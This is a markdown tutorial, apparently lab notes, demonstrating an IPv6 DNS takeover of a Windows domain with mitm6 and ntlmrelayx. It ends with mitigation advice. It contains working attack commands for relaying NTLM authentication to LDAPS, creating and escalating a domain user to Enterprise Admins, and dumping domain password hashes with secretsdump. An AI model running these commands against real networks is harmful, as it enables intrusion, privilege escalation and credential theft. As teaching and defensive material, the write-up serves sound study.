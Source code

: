 # IPv6 DNS Takeover
# What is IPv6?

IPv6, or Internet Protocol version 6, is the most recent version of the Internet Protocol (IP) that is used to identify and locate devices on a network. It is designed to succeed IPv4, which has been the predominant version of the IP for many years. 

# What is an IPv6 DNS Takeover Attack

In an IPv6 DNS Takeover attack, imagine trying to send a letter (data) to your friend and you instruct a mailman (DNS server) to deliver the letter to the right address. Now a thief (Attacker) intercepts the letter in transit and changes the destination address on the envelope (the DNS records), to their (the attacker) own address. This can happen because the attacker tricks the mailman (DNS server) into thinking the specified address is correct.

In a DNS takeover, the attacker typically exploits vulnerabilities in the DNS infrastructure or configuration to gain control over the DNS records associated with a domain. This enables the attacker to redirect traffic intended for a legitimate website or domain to a server under their control. Such actions can lead to various malicious activities, including phishing, malware distribution, or interception of sensitive information.

# Attack DEMO

**Tools needed to perform this attack:**

- ntlmrelayx - If you don't have kali linux, download this script https://github.com/fortra/impacket/blob/master/examples/ntlmrelayx.py. Kali Linux comes preinstalled with impacket tools. You can start it up using the command `impacket-ntlmrelayx` or first of all locate the script using `locate ntlmrelayx` then specify the full path of the tool to start it:

![](attachments/20240305155204.png)

- mitm6 - Steps to install:
	-  git clone https://github.com/dirkjanm/mitm6.git
	- cd mitm6 
	- pip install -r requirements.txt
	- sudo python2 setup.py install
	- sudo mitm6 ✅

## Step 1: Start up ntlmrelayx and mitm6

ntlmrelayx:

![](attachments/20240304150525.png)
`impacket-ntlmrelayx -6 -t ldaps://DOMAIN-IP -wh fakewpad.DOMAIN.local -l loot`

The IP specified is the Domain IP address. The information dumped will be stored in a folder named loot.

mitm6:

![](attachments/20240304150712.png)

`sudo mitm6 -d DOMAIN.local`

Target Domain specified.

## Step 2: An Even Occurs in the Network

We need an event to trigger. For example, we can wait for a victim to restart their machine.
After an event is triggered, the victim's hash is captured and relayed to the Domain Controller to authenticate and information about the Domain is dumped

![](attachments/20240304151412.png)

Top is the **ntlmrelayx** and bottom is **mitm6**.

## Step 3: Inspect Loot

Information about the domain is dumped in the folder specified called `loot`

![](attachments/20240304151516.png)

Information is dumped in 3 different formats: JSON,HTML,GREP

![](attachments/20240304153934.png)

Now the event triggered was due to a system reboot which caused information about the domain to get dumped. What of an event like a user login was triggered instead?

## Another Event is triggered (Login)

A user logs in to a system as the Domain Administrator

![](attachments/20240304154232.png)

## Restart ntlmrelayx

After this event occurs, restart the ntlmrelayx and a Domain user will be automatically created.

![](attachments/20240304154510.png)
`username: OTCJytDYGp and password: Zf;vifJvQU56$cw`

Confirmation that the user was indeed created.

![](attachments/20240304154651.png)

Although this user is only a domain user.

![](attachments/20240304154723.png)

## Privilege Escalation

We can also escalate their privileges to **Domain Admin**:

![](attachments/20240304154822.png)

By adding `--escalate-user <username>` we can perform this action.

Next is to wait for another event to trigger and restart ntlmrelayx.

![](attachments/20240304155634.png)

This results in a successful Privilege Escalation of the user. The user has successfully been added to the Enterprise Admins Group.

![](attachments/20240304155816.png)
## Dumping Hashes

We can now dump hashes with our newly created user credentials

![](attachments/20240304161456.png)

`impacket-secretsdump -dc-ip DOMAIN-IP -just-dc DOMAIN.local/'username':'password'@DOMAIN-IP`

# Mitigation

**Mitigation Strategies:**

1. IPv6 poisoning abuses the fact that Windows queries for an IPv6 address even in IPv4 -only environments. If you do not use IPv6 internally, the safest way to prevent mitm6 is to block DHCPv6 traffic and incoming router advertisements in Windows Firewall via Group Policy. Disabling IPv6 entirely may have unwanted side effects. Setting the following predefined rules to Block instead of Allow prevents the attack from working:
	- (Inbound) Core Networking - Dynamic Host Configuration Protocol for IPv6(DHCPV6-In)
	- (Inbound) Core Networking - Router Advertisement (ICMPv6-In)
	- (Outbound) Core Networking - Dynamic Host Configuration Protocol for IPv6(DHCPV6-Out)

2. If WPAD is not in use internally, disable it via Group Policy and by disabling the WinHttpAutoProxySvc Service.

3. Relaying to LDAP and LDAPS can only be mitigated by enabling both LDAP signing and LDAP channel binding.

4. Consider Administrative users to the Protected Users group or marking them as Account is sensitive and cannot be delegated, which will prevent any impersonation of that user via delegation.

